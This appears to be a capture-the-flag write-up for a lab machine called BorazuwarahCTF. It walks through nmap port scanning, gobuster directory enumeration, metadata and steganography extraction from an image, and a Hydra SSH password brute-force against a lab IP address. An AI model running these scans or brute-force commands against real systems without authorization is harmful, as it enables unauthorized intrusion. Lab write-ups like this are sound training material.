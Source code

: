 # BorazuwarahCTF

## Port Enumeration

To begin our scan, we use the Nmap tool in our discovery phase. As we can see, we have the following open ports:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:

![Descripción de Borazu](Imagenes/Borazu_1.png)

The first thing that comes to mind is to analyze the web page in search of strange links or any clues. As I don't find anything, I decide to investigate if there are hidden files or directories. For this, I'm going to use the Gobuster application.

```shell
gobuster dir -u http://172.17.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```

## Examining the Egg Image
It doesn't find anything, so the only thing I can think of is that the Kinder egg image might have some secret, including information in the metadata or an embedded file.

To find out, I'm going to use the Exiftool and Steghide tools, including the script created in the other section to perform a brute force attack on the image.

![Descripción de Borazu](Imagenes/Borazu_2.png)

We see that both in the description and in "Title" a username or password appears. Additionally, using the script to extract a possible embedded file, we extract the file "secreto.txt" with the following message.

![Descripción de Borazu](Imagenes/Borazu_3.png)

## Intrusion

Finally, everything points to the need for a brute force attack on the SSH service with the username "borazuwarah" and a password dictionary.

For this, I'm going to use the Hydra tool

```bash
hydra -l borazuwarah -P rockyou.txt -t 10 -w 1 ssh://172.0.17.2
```

![Descripción de Borazu](Imagenes/Borazu_4.png)

Hydra obtains the password for that given user, so we can now connect to the SSH service.
